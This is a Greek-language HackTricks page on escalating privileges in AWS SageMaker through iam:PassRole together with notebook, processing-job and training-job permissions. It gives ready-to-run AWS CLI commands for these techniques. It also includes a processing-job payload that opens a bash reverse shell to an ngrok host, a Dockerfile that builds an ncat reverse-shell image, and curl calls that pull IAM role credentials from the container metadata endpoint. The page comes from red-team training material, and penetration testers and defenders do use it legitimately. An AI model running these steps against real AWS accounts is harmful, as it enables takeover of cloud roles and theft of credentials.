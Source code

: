 # AWS - Εscalation προνομίων Sagemaker

## AWS - Εscalation προνομίων Sagemaker

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Ξεκινήστε τη δημιουργία ενός σημειωματαρίου με τον ρόλο IAM που έχει πρόσβαση συνδεδεμένο σε αυτό:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νεοδημιουργημένης προσωπικής σημειωματάριο. Στη συνέχεια, μπορούμε να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε ένα URL που μπορούμε να χρησιμοποιήσουμε για να έχουμε πρόσβαση στην προσωπική σημειωματάριο μόλις είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Μεταβείτε στο URL με τον περιηγητή και κάντε κλικ στο `Open JupyterLab` στην επάνω δεξιά γωνία, στη συνέχεια κύλιστε προς τα κάτω στην καρτέλα "Launcher" και κάτω από την ενότητα "Other", κάντε κλικ στο κουμπί "Terminal".

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του ρόλου IAM.

**Πιθανή Επίπτωση:** Ανύψωση προνομιακών δικαιωμάτων στον καθορισμένο ρόλο υπηρεσίας sagemaker.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Αν υπάρχουν Jupyter **σημειωματάρια που τρέχουν ήδη** σε αυτό και μπορείτε να τα καταγράψετε με την εντολή `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε **να δημιουργήσετε ένα URL για αυτά, να τα ανοίξετε και να κλέψετε τα διαπιστευτήριά τους όπως υποδεικνύεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανή Επίδραση:** Ανέλιξη προνομίων στον ρόλο υπηρεσίας sagemaker που είναι συνδεδεμένος.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει το **sagemaker να εκτελέσει ένα processing job** με έναν ρόλο sagemaker που είναι συνδεδεμένος με αυτό. Ο επιτιθέμενος μπορεί να καθορίσει τον ορισμό του container που θα τρέξει σε μια **AWS διαχειριζόμενη περίπτωση λογαριασμού ECS**, και **να κλέψει τα διαπιστευτήρια του ρόλου IAM που είναι συνδεδεμένος**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανή Επίδραση:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα μπορούσε να δημιουργήσει έναν χρόνο εκπαίδευσης, **εκτελώντας ένα αυθαίρετο container** με ένα **ρόλο συνδεδεμένο** σε αυτό. Επομένως, ο επιτιθέμενος θα μπορούσε να κλέψει τα διαπιστευτήρια του ρόλου.

{% hint style="warning" %}
Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτείτε από το προηγούμενο επειδή πρέπει να δημιουργήσετε ένα εικόνισμα Docker που θα στείλει το rev shell ή τα διαπιστευτήρια απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε ένα εκκινούμενο πρόγραμμα στη διαμόρφωση του χρόνου εκπαίδευσης).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανή Επίδραση:** Privesc στον καθορισμένο ρόλο υπηρεσίας sagemaker.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα (πιθανώς) μπορούσε να δημιουργήσει ένα **υπερπαράμετρο εκπαίδευσης**, **εκτελώντας ένα αυθαίρετο container** με ένα **ρόλο που είναι συνδεδεμένος** με αυτόν.\
_Δεν έχω εκμεταλλευτεί λόγω έλλειψης χρόνου, αλλά μοιάζει με τις προηγούμενες εκμεταλλεύσεις, μη διστάσετε να στείλετε ένα PR με λεπτομέρειες εκμετάλλευσης._

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
